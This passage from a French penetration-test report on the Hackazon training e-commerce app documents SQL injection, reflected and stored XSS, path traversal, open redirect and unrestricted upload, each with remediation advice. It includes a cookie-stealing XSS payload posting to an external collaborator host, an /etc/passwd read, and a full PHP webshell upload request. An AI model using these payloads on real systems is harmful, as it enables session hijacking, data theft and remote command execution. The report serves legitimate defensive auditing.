User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: https://hackazon.trackflaw.com
Referer: https://hackazon.trackflaw.com/user/password
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-Pwnfox-Color: red
Priority: u=0, i
Te: trailers

email=toto@tata.fr
```

---

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-10 : Énumération d'utilisateur}}} \\ \hline
\textbf{Complexité estimée : Moyenne} & \textbf{Travail/coût estimé : Faible} & \textbf{Priorité estimée : 3 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Il est recommandé de ne pas révéler d'informations spécifiques concernant l'existence d'un utilisateur. En cas de tentative d'enregistrement ou de récupération de mot de passe, le message d'erreur doit être générique (ex : "Une erreur est survenue."). Cela permet de protéger la vie privée des utilisateurs et de rendre plus difficile la cartographie des comptes existants.
} \\
\hline
\end{tabular}
\end{table}

##### Injection SQL

L'audit a révélé la présence d'une vulnérabilité d'injection SQL au niveau de l'application, ce qui permet à un attaquant d'exécuter des requêtes SQL arbitraires sur la base de données. Cette faille pourrait être exploitée pour extraire, modifier ou supprimer des données sensibles, compromettant ainsi l'intégrité et la confidentialité des informations stockées.

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-SQL-INJECTION : Exécution de requêtes SQL arbitraires via injection}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Très élevé} & \textbf{Faible} & \textbf{4 / 4} \\
\hline
\end{tabular}
\end{table}

Les tests effectués avec l'outil sqlmap ont permis de confirmer la vulnérabilité d'injection SQL sur l'URL suivante :
```
https://hackazon.trackflaw.com/category/view?id=19
```



Comme illustré dans la capture d'écran ci-dessous, différents types d'injections (boolean-based blind, stacked queries, time-based blind, et UNION query) ont été exploités avec succès pour interagir directement avec la base de données. Les résultats montrent que l'application est vulnérable aux attaques via le paramètre id en raison d'une absence de validation ou de filtrage adéquat des entrées utilisateurs.

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-SQL-INJECTION : Mettre en place des mécanismes de validation et d'assainissement des entrées}}} \\ \hline
\textbf{Complexité estimée : Modéré} & \textbf{Travail/coût estimé : Faible} & \textbf{Priorité estimée : 4 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Il est crucial de mettre en œuvre des mécanismes de validation rigoureux pour toutes les entrées utilisateur afin de prévenir les injections SQL. L'utilisation de requêtes préparées (requêtes paramétrées) avec des bind variables est fortement recommandée, car elles empêchent les chaînes de caractères injectées par un attaquant d'être interprétées comme du code SQL. De plus, il est conseillé de filtrer et d'assainir toutes les données d'entrée pour éliminer les caractères ou les chaînes potentiellement dangereux. Une approche basée sur le principe du "deny by default" doit être adoptée pour refuser toute entrée suspecte. Enfin, il est recommandé de surveiller les requêtes SQL via un système de détection des intrusions (IDS) ou de gestion des événements et informations de sécurité (SIEM) pour détecter toute tentative d'exploitation potentielle.
} \\
\hline
\end{tabular}
\end{table}

##### Injection Reflected XSS

Une vulnérabilité de type Cross-Site Scripting (XSS) a été détectée dans l'application. Cette faille permet à un attaquant d'injecter du code JavaScript malveillant qui s'exécute dans le navigateur de la victime. Le XSS réflectif se produit lorsque les données envoyées par l'utilisateur sont renvoyées directement au navigateur sans filtrage ou validation adéquate, ce qui peut entraîner des attaques telles que le vol de cookies, l'exécution de scripts malveillants ou la redirection vers des sites de phishing.

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-XSS-REFLECTED : Exécution de code JavaScript via injection de XSS réflechit}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Modéré} & \textbf{Facile} & \textbf{3 / 4} \\
\hline
\end{tabular}
\end{table}

Lors de l'audit, une injection de XSS réflectif a été découverte dans le paramètre searchString de la fonctionnalitée search. La requete vulnérable est la suivante:
```
GET /search?id=&searchString=<script>alert(1)</script> HTTP/2
Host: hackazon.trackflaw.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://hackazon.trackflaw.com/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-Pwnfox-Color: red
Priority: u=0, i
Te: trailers
```

Comme illustré dans la capture d'écran ci-dessous, le script injecté par le testeur a été exécuté directement dans le navigateur, confirmant la vulnérabilité. Ce type d'attaque permettrait à un attaquant de manipuler le contenu de la page ou de voler des informations sensibles comme le cookie de session utilisateur.



*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-XSS-REFLECTED : Mettre en place une validation et une échappement des entrées utilisateurs}}} \\ \hline
\textbf{Complexité estimée : Modéré} & \textbf{Travail/coût estimé : Faible} & \textbf{Priorité estimée : 3 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Il est conseillé d'assainir et d'échapper systématiquement toutes les entrées utilisateur avant de les renvoyer au navigateur. Les caractères spéciaux utilisés en JavaScript, HTML et CSS doivent être correctement échappés pour éviter l'exécution de scripts injectés. En outre, l'application devrait utiliser des entêtes de sécurité appropriés tels que Content-Security-Policy (CSP) pour restreindre l'exécution de scripts non autorisés. Il est également recommandé de valider côté serveur toutes les données d'entrée pour détecter et bloquer toute tentative d'injection malveillante.
} \\
\hline
\end{tabular}
\end{table}

##### Injection Stored XSS

Une vulnérabilité de type Cross-Site Scripting (XSS) stockée a été détectée dans l'application. Contrairement au XSS réflectif, où l'attaque est immédiate et temporaire, le XSS stocké permet à un attaquant de faire persister un script malveillant sur le serveur. Ainsi, chaque utilisateur accédant à la page vulnérable se verra exécuter ce script, ce qui rend l'attaque plus dangereuse et difficile à détecter.

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{
VULN-XSS-STORED : Exécution de code JavaScript via injection de XSS stocké}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Élevé	} & \textbf{Facile} & \textbf{4 / 4} \\
\hline
\end{tabular}
\end{table}

Lors de l'audit, une injection de XSS stockée a été découverte dans la section FAQ de l'application, où les utilisateurs peuvent soumettre des questions. La requête POST suivante a été utilisée pour injecter un script JavaScript malveillant via le paramètre userQuestion :
```
POST /faq HTTP/2
Host: hackazon.trackflaw.com
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 258

userEmail=toto%40tata.fr&userQuestion=<PAYLOAD>&_csrf_faq=AcHrpTTu6c3dmKzt5gFPDZ48YvRAoV37
```

Le code injecté a été stocké sur le serveur et a été exécuté chaque fois qu'un utilisateur accédait à la page FAQ, comme illustré dans la capture d'écran ci-dessous.



Exemple d'attaque : En utilisant une charge utile telle que ```<script> fetch('https://cfvont1lcy9qkyinwrvp2mxc43auymmb.oastify.com/', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>```, le script est injecté et stocké sur la page, se déclenchant chaque fois que quelqu'un accède à la section FAQ. Combiné à la vulnérabilité des faibles paramètres du cookie de session utilisateur, cette charge utile permet d'extraire le cookie de session et de l'envoyer vers un serveur potentiellement malveillant. Ce cas d'usage entraîne ainsi une usurpation d'identité, permettant à un attaquant d'utiliser la session de l'utilisateur ciblé.

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-XSS-STORED : Assainir et filtrer toutes les entrées utilisateur}}} \\ \hline
\textbf{Complexité estimée : Modéré} & \textbf{Travail/coût estimé : Modéré} & \textbf{Priorité estimée : 4 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
     Il est fortement recommandé de mettre en place des mesures d'assainissement et de validation côté serveur pour toutes les entrées utilisateur. Les balises HTML doivent être correctement échappées afin d'empêcher l'exécution de tout script. De plus, il est conseillé d'utiliser un mécanisme de liste blanche pour les entrées utilisateur et de désactiver toute exécution de code potentiellement malveillant. Enfin, l'utilisation de headers de sécurité tels que Content-Security-Policy (CSP) peut aider à atténuer le risque d'exécution de scripts injectés en bloquant les sources non approuvées de contenu scripté. Il est aussi essentiel de renforcer la sécurité des cookies de session en les marquant comme HttpOnly, Secure et en implémentant une politique de renouvellement régulier pour limiter la durée de vie d'une session volée.
} \\
\hline
\end{tabular}
\end{table}

##### Obtentiel arbitraire d'un fichier non-authorisé 
Une vulnérabilité de traversée de chemin a été identifiée sur l'application, permettant à un attaquant d'accéder à des fichiers système sensibles en manipulant les paramètres de la requête. Cette faille peut être exploitée pour lire des fichiers arbitraires du système d'exploitation sur lequel l'application est hébergée, exposant ainsi des informations critiques qui ne devraient pas être accessibles aux utilisateurs.

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-PATH-TRAVERSAL : Traversée de chemin non sécurisée}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Élevé} & \textbf{Facile} & \textbf{3 / 4} \\
\hline
\end{tabular}
\end{table}

La requête suivante illustre cette vulnérabilité :
```
GET /account/help_articles?page=/etc/passwd%0A HTTP/2
Host: hackazon.trackflaw.com
Cookie: visited_products=%2C64%2C72%2C1%2C81%2C; PHPSESSID=XXXXXXXXXXXXXXXXXXX
```

Ici, le paramètre page de la requête a été manipulé pour inclure le chemin du fichier /etc/passwd. La traversée de chemin est facilitée par l'utilisation du caractère %0A, qui représente un saut de ligne (newline). Ce caractère est essentiel pour que l'attaque fonctionne, probablement à cause de la manière dont le paramètre est interprété par le système ou l'application.

**Exploitation et tests :**En testant différentes valeurs pour le paramètre page, il a été découvert que l'ajout du caractère %0A permettait de contourner certains mécanismes de sécurité ou de formatage de l'application, rendant possible l'accès au fichier système. Une fois la requête envoyée, le contenu du fichier /etc/passwd a pu être consulté, exposant des informations critiques sur les utilisateurs du système.



Dans cet exemple, la requête permet de lire le fichier système /etc/passwd, qui contient des informations sur les utilisateurs du système, telles que les noms d'utilisateur et les répertoires personnels. Bien que les mots de passe soient généralement hachés ou stockés dans un autre fichier, ces informations peuvent toujours être utiles pour d'autres attaques (par exemple, reconnaissance, exploitation ultérieure).

Des tests ont été effectués pour déterminer si l'application était également vulnérable à une injection de commande en essayant de manipuler la requête comme suit :
```
GET /account/help_articles?page=/etc/passwd%0Awhoami
```
Cependant, il a été observé que seule la lecture de fichiers arbitraires était possible, ce qui confirme qu'il s'agit d'une vulnérabilité de path traversal et non d'une injection de commande.

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-PATH-TRAVERSAL : Valider et restreindre les chemins accessibles}}} \\ \hline
\textbf{Complexité estimée : Modéré} & \textbf{Travail/coût estimé : Modéré} & \textbf{Priorité estimée : 4 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Pour corriger cette vulnérabilité, il est essentiel de valider rigoureusement toutes les entrées utilisateur utilisées pour accéder à des fichiers. Le paramètre page ne doit permettre que l'accès à des fichiers spécifiques prédéfinis par l'application (par exemple, via une liste blanche). Les entrées doivent être nettoyées pour empêcher l'inclusion de caractères spéciaux comme %0A ou les séquences ../, qui permettent la navigation en dehors des répertoires autorisés. En sécurisant l'accès aux fichiers, la plateforme renforcera sa posture de sécurité et assurera la confiance continue de ses utilisateurs, évitant ainsi les répercussions négatives sur son chiffre d'affaires et sa réputation.
} \\
\hline
\end{tabular}
\end{table}

##### Open Redirect

Une vulnérabilité d'Open Redirect a été détectée dans l'application. Cette faille permet à un attaquant de manipuler la redirection après la connexion de l'utilisateur pour diriger ce dernier vers un site malveillant. L'attaquant pourrait alors exploiter cette faille pour tromper les utilisateurs en leur faisant croire qu'ils naviguent sur un site légitime, alors qu'ils sont en réalité redirigés vers un autre domaine.

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-OPEN-REDIRECT : Redirection non sécurisée}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Élevé} & \textbf{Modéré} & \textbf{3 / 4} \\
\hline
\end{tabular}
\end{table}

Lors de l'audit, il a été constaté que le paramètre return_url, utilisé pour rediriger l'utilisateur après la connexion, est vulnérable. En manipulant ce paramètre, un attaquant peut forcer une redirection vers un site tiers non contrôlé par l'application, ce qui peut potentiellement mener à des attaques de phishing ou à l'exploitation de failles supplémentaires.

La requête suivante illustre cette vulnérabilité :
```
GET /user/login?return_url=https://google.com HTTP/2
Host: hackazon.trackflaw.com
Cookie: PHPSESSID=XXXXXXXXXXXXXXXXXXXXXX; visited_products=%2C81%2C102%2C16%2C
```
L'utilisation du paramètre return_url permet à un attaquant de rediriger un utilisateur authentifié vers n'importe quel site externe, comme illustré dans la capture d'écran ci-dessous. Dans ce cas, l'utilisateur est redirigé vers "https://google.com", mais l'attaquant pourrait facilement remplacer ce lien par un site malveillant imitant l'interface de l'application.

Exemple d'attaque : Lorsqu'un utilisateur tente d'accéder à une fonctionnalité nécessitant une connexion, il est redirigé vers la page de connexion avec le paramètre return_url spécifiant la page où il sera envoyé après connexion. Si ce paramètre est manipulé pour contenir une URL externe, l'utilisateur peut être trompé et redirigé vers un site de phishing comme suit : ```GET /user/login?return_url=https://attacker-website.com/login HTTP/2```

Dans ce scénario, après la connexion, l'utilisateur serait automatiquement dirigé vers "https://attacker-website.com/login", où il pourrait être invité à saisir des informations confidentielles, pensant toujours se trouver sur le site légitime. Cette attaque permet donc de voler des identifiants et d'usurper l'identité de l'utilisateur.

**Impact sur la marque et le chiffre d'affaires :** Une vulnérabilité de redirection ouverte ne menace pas seulement la sécurité des utilisateurs, elle porte également atteinte à l'image de la marque. Si des utilisateurs se font rediriger vers des sites frauduleux après avoir cliqué sur un lien légitime de la plateforme, cela peut sérieusement éroder la confiance envers le site e-commerce. Une perte de confiance des clients conduit inévitablement à une baisse de la fréquentation et des ventes, affectant directement le chiffre d'affaires de la plateforme. La propagation d'informations sur une faille de sécurité, surtout lorsqu'elle implique des attaques de phishing, peut ternir durablement la réputation de la marque, et les campagnes de communication nécessaires pour redresser l'image publique s'avéreraient coûteuses et difficiles à mettre en œuvre.

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4.5cm}|>{\centering\arraybackslash}p{4.5cm}|>{\centering\arraybackslash}p{4.5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{\textwidth}|}{\textcolor{white}{\textbf{VULN-OPEN-REDIRECT : Valider et restreindre les URL de redirection}}} \\ \hline
\textbf{Complexité estimée : Modéré} & \textbf{Travail/coût estimé : Faible} & \textbf{Priorité estimée : 4 / 4} \\
\hline
\multicolumn{3}{|p{\textwidth}|}{
    Il est crucial de valider et de restreindre les valeurs du paramètre \texttt{return\_url} pour empêcher les redirections vers des domaines non autorisés. Les valeurs de ce paramètre doivent être comparées à une liste blanche d'URLs approuvées, et toute tentative de redirection vers un domaine externe doit être bloquée. Une autre solution consiste à utiliser des identifiants internes (par exemple, des codes ou des noms de pages) pour les redirections après connexion, plutôt que de permettre des URL complètes. Cela minimiserait les risques de manipulation externe. L'implémentation d'une fonctionnalité de journalisation pour enregistrer les tentatives de redirections non autorisées pourrait aussi faciliter la détection de tentatives d'abus. En corrigeant cette vulnérabilité, la plateforme renforcera non seulement sa sécurité, mais également sa réputation, assurant ainsi une meilleure fidélisation des clients et la protection du chiffre d'affaires.
} \\
\hline
\end{tabular}
\end{table}


#### Processus métier

##### Modification du processus de commande 
Lors de l'audite nous avons tester la fonctionnalitée de passage de commande mais cette dernière est protégé par des token anti-csrf.
Voici un exemple de requête envoyé au serveur.
```
POST /checkout/placeOrder HTTP/2
Host: hackazon.trackflaw.com
Cookie: visited_products=%2C64%2C72%2C1%2C81%2C101%2C; PHPSESSID=XXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 53
Origin: https://hackazon.trackflaw.com
Referer: https://hackazon.trackflaw.com/checkout/confirmation
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Pwnfox-Color: red
Priority: u=0
Te: trailers

_csrf_checkout_step4=tq3ogmr7kMQotRPGmdJCrWybOm9ueaOB
```

Grâce aux tokens anti-CSRF, il n'est pas possible de modifier les informations utilisateur ou les détails de la commande durant le processus d'achat. Chaque étape est protégée par un token, garantissant que seules les requêtes initiées par l'utilisateur sont acceptées. Cela renforce l'intégrité des transactions, réduisant le risque de fraudes, car tout changement non autorisé est bloqué par le serveur.

##### Absence de Fonctionnalité de Paiement
Dans une plateforme de commerce électronique, la capacité à effectuer des paiements est fondamentale pour son bon fonctionnement et sa viabilité. L'absence de fonctionnalité de paiement représente une vulnérabilité critique.

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-ABSENCE-PAYMENT : Absence de fonctionnalité de paiement}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Très élevé} & \textbf{Facile} & \textbf{4 / 4} \\
\hline
\end{tabular}
\end{table}

**Détails de l'exploitation**
La vulnérabilité a été observée lors de la tentative d'achat d'un produit sur la plateforme, où aucune option de paiement n'était disponible. Cela signifie que, même si les utilisateurs peuvent ajouter des articles à leur panier et les sélectionner pour achat, ils ne peuvent pas conclure la transaction en raison de l'absence d'une interface de paiement.

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-ABSENCE-PAYMENT :  Implémenter une fonctionnalité de paiement sécurisée}}} \\ \hline
\textbf{Complexité estimée : Élevée} & \textbf{Travail/coût estimé : Élevé} & \textbf{Priorité estimée : 4 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Actions correctives recommandées :
- Développer et intégrer une solution de paiement sécurisée : Collaborer avec des fournisseurs de services de paiement reconnus pour intégrer une solution de paiement fiable et sécurisée.
- Tester le processus de paiement : Avant le déploiement, effectuer des tests approfondis pour garantir que le processus de paiement fonctionne sans erreur et est convivial.
- Assurer la conformité PCI : Veiller à ce que toutes les transactions de paiement soient conformes aux normes de sécurité des données de l'industrie des cartes de paiement (PCI DSS).
- Fournir des mises à jour et des notifications : Informer les utilisateurs des mises à jour concernant la fonctionnalité de paiement et s'assurer qu'ils sont conscients des nouvelles options disponibles.
} \\
\hline
\end{tabular}
\end{table}


#### Côté client

##### Téléversement de Fichier Non Sécurisé

Une grave vulnérabilité de sécurité a été découverte concernant le téléversement de fichiers sur la plateforme Hackazon. Actuellement, il est possible de téléverser des fichiers sur le serveur sans aucune vérification ou contrôle, ce qui expose l'application à de nombreux risques de sécurité, notamment la possibilité d'exécuter des scripts malveillants, de compromettre le serveur ou de lancer des attaques supplémentaires contre les utilisateurs.

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-UNRESTRICTED-FILE-UPLOAD : Téléversement de fichier non sécurisé}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Très élevé} & \textbf{Facile} & \textbf{4 / 4} \\
\hline
\end{tabular}
\end{table}

**Détails de l'exploitation**
La vulnérabilité a été observée lors de l'envoi de la requête suivante au niveau de l'envoie de la photo de profile utilisateur :
```requete
POST /account/profile/edit HTTP/2
Host: hackazon.trackflaw.com
Cookie: visited_products=%2C64%2C72%2C1%2C81%2C; PHPSESSID=XXXXXXXXXXXXXXXXXXXXXXXXX
-----------------------------189735364826765907351405637159
Content-Disposition: form-data; name="_csrf_profile"

7snJ5pcYHD0B0leJoZzOIEftIZI8WHNQ
-----------------------------189735364826765907351405637159
Content-Disposition: form-data; name="first_name"

tototata
-----------------------------189735364826765907351405637159
Content-Disposition: form-data; name="last_name"

titi
-----------------------------189735364826765907351405637159
Content-Disposition: form-data; name="user_phone"


-----------------------------189735364826765907351405637159
Content-Disposition: form-data; name="photo"; filename="Webshell.php"
Content-Type: application/octet-stream

<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
-----------------------------189735364826765907351405637159
Content-Disposition: form-data; name="_submit_save_and_exit"

Save and Exit
-----------------------------189735364826765907351405637159--
```


Dans cet exemple, un fichier contenant un Webshell a été téléversé sur le serveur. Ce script permet à un attaquant d'exécuter des commandes arbitraires sur le serveur, ouvrant la porte à un contrôle complet du système par l'attaquant. L'absence totale de vérification de type de fichier, de contrôle de contenu ou de restriction basée sur l'extension rend cette attaque triviale à exécuter.

En téléversant ce fichier PHP malveillant, un attaquant pourrait ensuite naviguer vers l'URL correspondant à l'emplacement du fichier et exécuter des commandes sur le serveur. Par exemple : ```https://hackazon.trackflaw.com/uploads/Webshell.php?cmd=whoami``` Ce qui permettrait à l'attaquant de savoir quel utilisateur exécute le script, et ainsi d'escalader les privilèges pour compromettre encore plus le système.

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-UNRESTRICTED-FILE-UPLOAD : Implémenter des vérifications strictes des fichiers téléversés}}} \\ \hline
\textbf{Complexité estimée : Moyenne} & \textbf{Travail/coût estimé : Moyen} & \textbf{Priorité estimée : 4 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Actions correctives recommandées :
- Limiter les types de fichiers acceptés : Assurez-vous que seuls certains types de fichiers (comme .png, .jpg, etc.) puissent être téléversés, et que les fichiers script ou exécutables (.php, .exe, etc.) soient strictement interdits.
- Analyser le contenu du fichier : Ne pas se fier uniquement aux extensions de fichier. Les attaquants peuvent tromper les protections en changeant simplement l'extension. Utilisez une analyse plus approfondie pour vérifier le contenu réel du fichier.
- Contrôler la taille des fichiers téléversés : Définir des limites de taille pour éviter que les utilisateurs téléversent des fichiers volumineux qui pourraient surcharger le serveur.
- Renommer les fichiers téléversés : Assurez-vous que les fichiers téléversés soient renommés de manière aléatoire et stockés dans des répertoires non accessibles publiquement pour éviter que des fichiers exécutables puissent être directement atteints via l'URL.
- Scanner les fichiers pour les malwares : Utiliser un outil antivirus ou un scanner de sécurité pour détecter les scripts malveillants.
} \\
\hline
\end{tabular}
\end{table}


#### Gestion des erreurs

La gestion des erreurs HTTP a été vérifiée, et le comportement de la page répond correctement aux différents tests effectués. L'URL d'erreur n'est pas affichée sur la page, garantissant ainsi une meilleure sécurité et une expérience utilisateur plus fluide.



#### Cryptographie

##### Mauvaise configuration SSL

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-SSL : Mauvaise configuration SSL}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Moyen} & \textbf{Modéré} & \textbf{2 / 4} \\
\hline
\end{tabular}
\end{table}

